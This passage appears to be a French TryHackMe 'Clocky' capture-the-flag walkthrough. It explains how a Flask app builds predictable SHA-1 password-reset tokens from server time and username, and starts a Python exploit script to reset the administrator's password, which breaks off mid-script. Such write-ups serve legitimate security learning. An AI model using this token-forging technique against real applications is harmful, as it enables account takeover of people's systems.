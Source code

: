 L'archive contient également un fichier python `app.py`, qui semble être le code source d'une application Flask. A la fin du code, nous observons que l'application est accessible sur le port `8080`.

![Flask app on port 8080](/images/THM-Clocky/flask-app-8080.png)

En naviguant vers `http://10.10.62.39:8080/`, nous arrivons sur un site web.

![Clocky website on port 8080](/images/THM-Clocky/clocky-website.png)

Dans le code source, nous trouvons plusieurs points de terminaison tels que:

* `/administrator` qui contient un formulaire de connexion.

![Clocky administrator endpoint](/images/THM-Clocky/administrator.png)

* `/forgot_password` qui permet de réinitialiser un mot de passe après que l'utilisateur ait fourni un nom d'utilisateur valide.

![Clocky forgot_password endpoint](/images/THM-Clocky/password-reset.png)

* `/password_reset`, ce point d'accès mène à une page avec le message `Invalid Parameter`. Dans le code, nous voyons que nous devons fournir une valeur pour le token.

![Clocky forgot_password endpoint](/images/THM-Clocky/pwd_reset.png)

![Clocky token value expected](/images/THM-Clocky/token-expected.png)

De plus, la génération du token est soumise à des contraintes de temps. Voici comment elle fonctionne :

* une fois que l'application confirme dans la base de données que le nom d'utilisateur fourni existe, elle enregistre la date et l'heure du serveur et les stocke dans la variable `value`.
* `value` est ensuite converti en chaîne de caractères et les 4 derniers caractères sont supprimés. Un espace, un point et le nom de l'utilisateur en majuscules sont ensuite ajoutés à la chaîne.
* La variable `lnk` est finalement hachée en utilisant SHA-1 (ce qui n'est pas sécurisé).

![Clocky token value expected](/images/THM-Clocky/token-gen-code.png)

Pour l'exploiter, il faut donc

* fournir un nom d'utilisateur valide 
* synchroniser notre date et notre heure avec celles du serveur
* générer une valeur de token valide 
* réinitialiser le mot de passe du compte administrateur 



Nous utilisons le script ci-dessous pour y parvenir.

```python
import datetime
import hashlib
import requests
import re

# Set the target URL, change the IP acordingly
base_url = 'http://10.10.62.39:8080/' 

# Send a POST request to synchronize time
data = {"username": "administrator"}
requests.post(base_url + "forgot_password", data=data)

# Send a GET request to fetch the current time
response = requests.get(base_url)
if response.status_code == 200:
    time_pattern = r'The current time is (\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2})'
    match = re.search(time_pattern, response.text)
    if match:
        current_time_str = match.group(1)
```